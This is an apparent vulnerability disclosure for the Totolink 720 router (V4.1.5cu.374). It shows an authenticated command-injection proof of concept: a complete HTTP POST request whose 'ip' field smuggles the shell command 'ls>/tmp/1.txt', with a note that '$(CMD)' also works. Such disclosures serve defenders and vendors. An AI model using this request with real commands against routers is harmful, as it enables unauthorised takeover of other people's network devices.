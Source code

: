Exploit Title:Totolink 720 has a code execution vulnerability  
Version:V4.1.5cu.374  
Date:2022/08/16  
Exploit Author:xiaohu816  
Vendor Homepage:https://www.totolink.net/  

POC:  
After the administrator logs in, enter "system tools" - > "Ping diagnosis" page  
执行tls>/tmp/1.txt命令  

POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1  
Content-Length: 52  
Accept: application/json, text/javascript, */*; q=0.01  
X-Requested-With: XMLHttpRequest  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
Origin: http://192.168.0.1  
Referer: http://192.168.0.1/advance/diagnosis.html?time=1659889464870  
Accept-Encoding: gzip, deflate  
Accept-Language: en-US,en;q=0.9  
Cookie: SESSION_ID=2:1591951611:2  
Connection: close  

{"ip":"aaaa\tls>/tmp/1.txt","num":"2","topicurl":"setDiagnosisCfg"}   


Analysis Report:   
In the setdiagnosicfg function, the value string corresponding to the IP in the JSON data is directly put into V6  

![image](https://user-images.githubusercontent.com/111302002/184783693-4239eb22-9729-4d3b-8357-57af94abebb4.png)  

![image](https://user-images.githubusercontent.com/111302002/184783789-cdb09e00-feb1-4010-bc17-7ef477fe0da5.png)  
Just write a string such as $(CMD) in the value corresponding to the IP to complete the command injection at CMD  


